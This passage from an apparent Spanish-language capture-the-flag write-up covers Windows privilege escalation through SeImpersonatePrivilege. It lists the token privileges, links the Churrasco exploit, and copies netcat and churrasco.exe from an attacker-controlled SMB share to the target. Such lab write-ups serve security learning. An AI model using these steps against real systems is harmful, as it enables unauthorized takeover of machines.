 enumeramos los privilegios que tenemos este usuario y vemos que tenemos activado el privilegio SeImpersonatePrivilege

```python
c:\windows\system32\inetsrv> whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                 Description                               State
============================== ========================================= ========
SeAuditPrivilege               Generate security audits                  Disabled
SeIncreaseQuotaPrivilege       Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege  Replace a process level token             Disabled
SeChangeNotifyPrivilege        Bypass traverse checking                  Enabled
SeImpersonatePrivilege         Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege        Create global objects                     Enabled
```

segun investigando vemos que podemos usar este exploit ya que tenemos activado el privilegio SeImpersonatePrivilege         

```bash
https://www.exploit-db.com/exploits/32891
```

y los sistemas operativos afectatos son

```python
The issue affects the following:

Windows XP SP2
Windows Server 2003
Windows Vista
Windows Server 2008
```

descargamos el exploit compilado de la siguiente enlace

```bash
https://github.com/Re4son/Churrasco/blob/master/churrasco.exe
```

creamos una carpeta y copiamos nuestro exploit churrasco.exe y netcat a la maquina victima

```bash
mkdir privesc

cd privesc

copy \\10.10.14.54\shared\nc.exe C:\WINDOWS\Temp\privesc\nc.exe
        1 file(s) copied.

copy \\10.10.14.54\shared\churrasco.exe C:\WINDOWS\Temp\privesc\churrasco.exe
        1 file(s) copied.

C:\WINDOWS\Temp\privesc>
```
